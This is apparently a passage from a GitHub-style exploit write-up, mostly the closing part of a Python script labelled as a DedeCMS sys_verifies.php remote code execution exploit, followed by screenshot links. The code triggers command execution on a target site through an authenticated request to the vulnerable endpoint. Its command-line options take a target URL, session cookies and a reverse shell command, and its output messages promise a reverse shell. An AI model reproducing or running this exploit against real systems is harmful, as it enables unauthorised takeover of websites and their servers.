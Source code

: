 ```python
    except Exception as e:
        print(f"[-] Error sending payload: {str(e)}")
        return False
    
    print("[*] Triggering command execution...")
    
    # Step 2: Trigger the command execution
    try:
        trigger_url = f"{target_url}/dede/sys_verifies.php?action=down&curfile=1"
        response = requests.get(trigger_url, cookies=cookies, headers=headers, timeout=10)
        
        if response.status_code == 200:
            print("[+] Command triggered successfully!")
            print("[+] If the command was successful, you should receive your reverse shell.")
            return True
        else:
            print(f"[-] Failed to trigger command. Status code: {response.status_code}")
            return False
    except Exception as e:
        print(f"[-] Error triggering command: {str(e)}")
        return False

def main():
    parser = argparse.ArgumentParser(description="DedeCMS sys_verifies.php RCE Exploit")
    parser.add_argument("-u", "--url", required=True, help="Target URL (e.g., http://example.com)")
    parser.add_argument("-c", "--cookies", required=True, help="Cookies for authentication")
    parser.add_argument("-s", "--shell", required=True, help="Reverse shell command to execute")
    
    args = parser.parse_args()
    
    print("[*] DedeCMS sys_verifies.php RCE Exploit")
    print(f"[*] Target: {args.url}")
    
    exploit(args.url, args.cookies, args.shell)

if __name__ == "__main__":
    main()
```


![image.png](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505211523675.png)


![image.png](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505211523431.png)

<video src="C:/Users/XU/DedeCMS v5.7.117-RCE.mp4"></video>
